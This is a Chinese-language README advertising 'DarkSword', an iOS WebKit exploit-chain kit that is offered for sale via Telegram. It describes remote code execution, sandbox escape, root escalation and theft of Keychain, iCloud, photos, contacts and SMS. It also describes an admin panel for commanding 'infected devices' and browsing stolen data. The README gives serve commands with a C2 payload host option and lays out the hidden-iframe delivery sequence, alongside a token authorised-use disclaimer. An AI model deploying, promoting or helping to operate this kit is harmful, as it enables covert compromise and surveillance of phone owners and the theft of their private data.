





# DarkSword Red Team Framework

DarkSword是一个基于iOS WebKit漏洞链的红队渗透测试框架，支持iOS 18.4 - 18.7版本的远程代码执行和权限提升。

> **⚠️ 免责声明**：本工具仅用于授权的安全测试和研究目的。使用前请确保您拥有目标系统的合法授权。未经授权的使用可能违反法律法规。

## 获取完整PRO项目

如需获取完整PRO版本及技术支持，请联系Telegram：[https://t.me/Jeequan](https://t.me/Jeequan)（技术支持费用：5000U）

## 功能特性

### 漏洞利用能力
| 能力 | 说明 |
|-----|------|
| **远程代码执行** | 通过WebKit漏洞在iOS设备上执行任意JavaScript代码 |
| **沙箱逃逸** | 突破iOS应用沙箱限制 |
| **权限提升** | 获取root级别系统权限 |
| **数据窃取** | 窃取iCloud数据、Keychain、照片、通讯录、短信等 |
| **文件操作** | 访问和操作设备文件系统 |

### 后台管理系统
基于FastAPI + Vue 3构建的完整管理后台，提供：

- **仪表盘**：实时统计和监控
- **设备管理**：管理受感染的iOS设备
- **访问日志**：记录设备访问记录
- **命令执行**：向设备发送执行命令
- **数据管理**：查看窃取的数据和文件
- **用户管理**：管理员权限管理

## 系统展示

### 首页仪表盘


### 设备管理


### 访问日志


### 数据管理


### 命令执行


## 安装

```bash
git clone https://github.com/bhideki/darksword.git
cd darksword
pip install -e .
```

## 快速使用

### 启动漏洞服务器
```bash
darksword serve
```

在iOS设备上通过Safari访问：`http://<你的IP>:8080/`

### 启动管理后台
```bash
cd admin
python -m uvicorn main:app --host 0.0.0.0 --port 8000
```

访问后台：`http://localhost:8000`

默认管理员账号：`admin` / `admin123`

## CLI命令

| 命令 | 描述 |
|-----|------|
| `darksword serve` | 启动漏洞交付HTTP服务器 |
| `darksword sync` | 从GitHub同步payload文件 |
| `darksword list` | 列出本地可用的payload |
| `darksword info` | 显示漏洞链信息和CVE详情 |
| `darksword sync-kexploit` | 同步内核漏洞文件（Objective-C） |

### serve命令选项

```bash
darksword serve -H 0.0.0.0 -p 8080
darksword serve -p 8443 --c2-host https://your-c2.com/payload
```

- `-H, --host`: 监听地址（默认：0.0.0.0）
- `-p, --port`: 监听端口（默认：8080）
- `--c2-host`: 自定义C2服务器地址
- `--redirect`: 漏洞利用后的重定向URL

## 漏洞链流程

1. **index.html** → 着陆页，加载frame.html到隐藏iframe
2. **frame.html** → 注入rce_loader.js
3. **rce_loader.js** → 根据iOS版本加载对应的RCE模块
4. **rce_module.js / rce_module_18.6.js** → RCE利用模块
5. **rce_worker_18.4.js / rce_worker_18.6.js** → WebWorker漏洞利用
6. **sbx0_main_18.4.js / sbx1_main.js** → 沙箱逃逸
7. **pe_main.js** → 权限提升（获取root权限）

## 项目结构

```
DarkSword/
├── admin/                    # 管理后台
│   ├── frontend/            # Vue 3前端
│   ├── routers/             # FastAPI路由
│   ├── main.py              # 后端入口
│   ├── auth.py              # 认证模块
│   ├── database.py          # 数据库模型
│   └── schemas.py           # Pydantic模型
├── darksword/               # Python核心模块
│   ├── cli.py               # CLI入口
│   ├── server.py            # HTTP服务器
│   ├── payloads.py          # Payload管理
│   └── config.py            # 配置管理
├── payloads/                # Web漏洞payload
├── kexploit/                # 内核漏洞文件
├── templates/               # 着陆页模板
├── 展示/                    # 系统截图
├── darksword.db             # SQLite数据库
├── pyproject.toml
└── README.md
```

## 支持的iOS版本

- iOS 18.4
- iOS 18.5
- iOS 18.6
- iOS 18.6.1
- iOS 18.6.2
- iOS 18.7

## 参考资料

- [Google Threat Intelligence - DarkSword iOS Exploit Chain](https://cloud.google.com/blog/topics/threat-intelligence/darksword-ios-exploit-chain)
- [DarkSword-RCE GitHub](https://github.com/htimesnine/DarkSword-RCE)
- [darksword-kexploit GitHub](https://github.com/opa334/darksword-kexploit)

## 许可证

MIT License - 仅用于教育和授权安全测试目的。
